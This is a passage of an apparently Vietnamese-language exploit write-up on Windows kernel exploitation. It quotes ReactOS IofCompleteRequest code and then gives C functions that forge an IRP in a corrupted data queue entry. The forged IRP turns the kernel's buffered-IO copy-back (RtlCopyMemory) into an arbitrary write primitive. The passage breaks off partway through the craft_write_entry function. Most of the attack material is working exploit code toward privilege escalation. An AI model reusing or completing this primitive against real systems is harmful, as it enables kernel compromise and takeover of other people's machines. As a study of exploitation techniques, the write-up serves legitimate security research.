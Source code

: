```
```

Tại hàm `IofCompleteRequest` này thì chúng ta sẽ tận dụng đoạn ghi kết quả trả về cho userland

Copy

Copy

```
//IofCompleteRequest - ntoskrnl.exe - ReactOS
//--------------------cut-----------------
/* Handle Buffered case first */
    if (Irp->Flags & IRP_BUFFERED_IO)
    {
        /* Check if we have an input buffer and if we succeeded */
        if ((Irp->Flags & IRP_INPUT_OPERATION) &&
            (Irp->IoStatus.Status != STATUS_VERIFY_REQUIRED) &&
            !(NT_ERROR(Irp->IoStatus.Status)))
        {
            _SEH2_TRY
            {
                /* Copy the buffer back to the user */
                RtlCopyMemory(Irp->UserBuffer,
                              Irp->AssociatedIrp.SystemBuffer,
                              Irp->IoStatus.Information);
            }
            _SEH2_EXCEPT(EXCEPTION_EXECUTE_HANDLER)
            {
                /* Fail the IRP */
                Irp->IoStatus.Status = _SEH2_GetExceptionCode();
            }
            _SEH2_END;
        }

        /* Also check if we should de-allocate it */
        if (Irp->Flags & IRP_DEALLOCATE_BUFFER)
        {
            /* Deallocate it */
            ExFreePool(Irp->AssociatedIrp.SystemBuffer);
        }
    }
//--------------------cut-----------------

```

Mình sẽ tận dụng đoạn `RtlCopyMemory` để copy dữ liệu về cho User thì mình sẽ sửa Entry 2 sao cho nó chứa một IRP để có thể ghi tùy ý và trông sẽ như thế này

Copy

Copy

```
void craft_irp_write(IRP* copied_irp, ULONG64 destination, ULONG64 source, int size, ULONG64 thread_list) {
    copied_irp->Flags = IRP_INPUT_OPERATION | IRP_BUFFERED_IO;
    copied_irp->Cancel = NULL;
    //copied_irp->CancelRoutine = NULL;
    copied_irp->UserBuffer = PVOID64(destination);
    copied_irp->AssociatedIrp = PVOID64(source);
    copied_irp->IoStatus[2] = size;
    copied_irp->ThreadListEntry.Flink = thread_list; //??
    copied_irp->ThreadListEntry.Blink = thread_list; //??
}
void craft_write_entry(ULONG64 forge_irp, ULONG sz) {
    // Entry 2 modified
    DATA_QUEUE_ENTRY* entry = (DATA_QUEUE_ENTRY*)user_space;
```